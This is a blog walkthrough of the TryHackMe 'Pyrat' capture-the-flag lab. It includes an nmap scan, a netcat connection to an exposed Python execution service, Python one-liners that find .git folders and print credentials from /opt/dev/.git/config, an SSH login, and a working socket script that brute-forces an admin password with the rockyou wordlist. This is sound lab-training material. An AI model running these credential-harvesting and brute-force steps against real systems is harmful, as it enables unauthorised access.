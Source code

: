 ```yaml
---
layout: post
title: "🎮 Walk-through  → THM Pyrat"
permalink: /blog/walk-through_thm_pyrat/
---
```


# 🎮 Walk-through → TryHackMe Pyrat

[Pyrat Challange Room Link →](https://tryhackme.com/room/pyrat)

### Description

Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.

# Nmap port scan

Screenshot:

![image](/assets/images/thm/pyrat/1.png)

Port ssh (22) and Hppt (8000) is open.
Screenshot:

# Check for the http port information.

![image](/assets/images/thm/pyrat/2.png)

Basic connection ok. lets connect to port 8000 using netcat. Try to run hello world python syntax as description says there are potential python code execution vulnerability.
Screenshot:
![image](/assets/images/thm/pyrat/3.png)

We can execute python codes here.

Next I will use python code execution payload further. Try to check for incomming mails.
Screenshot:
![image](/assets/images/thm/pyrat/4.png)

May be there is something for me in `think`. Next try to read this mail.

Screenshot:
![image](/assets/images/thm/pyrat/5.png)

search for git folders.

```python
import os; print([r for r, d, ds in os.walk('/') if ".git" in d])
```

Screenshot:
![image](/assets/images/thm/pyrat/6.png)

Check git config.

![image](/assets/images/thm/pyrat/7.png)

We got username and password here. Let's try to ssh using this credential.

We have successfully loged in and in the home directory there is an `users.txt` file contains our first flag.

### Root

![image](/assets/images/thm/pyrat/8.png)

Python script to find admin password.

```python=
import socket


TARGET_IP = '10.10.118.253'
TARGET_PORT = 8000
WORDLIST = '/usr/share/wordlists/rockyou.txt'


with open(WORDLIST, 'r', encoding="latin-1") as f:
    for password in f:
        password = password.strip()
        try:
            s = socket.socket()
            s.settimeout(3)
            s.connect((TARGET_IP, TARGET_PORT))

            # Send admin
            s.sendall(b"admin\n")
            data = s.recv(4096).decode()

            # read password prompt
            if "Password:" in data:
                s.sendall((password + "\n").encode())
                data = s.recv(4096).decode()
                print(f"[TRY] Password: {password} | Response: {data.strip()}")

                if "Password:" not in data:
                    print(f"\n[SUCCESS] Password found: {password}")
                    break
            else:
                print("Error: unexpected response after sending username")

            s.close()
        except Exception as e:
            print("Error: %s " %e)

```

Now successfully got the admin password.
![image](/assets/images/thm/pyrat/9.png)

## Useful commands.

1. `nmap -sS 10.10.133.11`
2. `import os; print([r for r, d, ds in os.walk('/') if ".git" in d])`
3. `print(open("/opt/dev/.git/config").read())`
4. `ssh think@10.10.118.253`
5. `nc 10.10.118.253 8000`
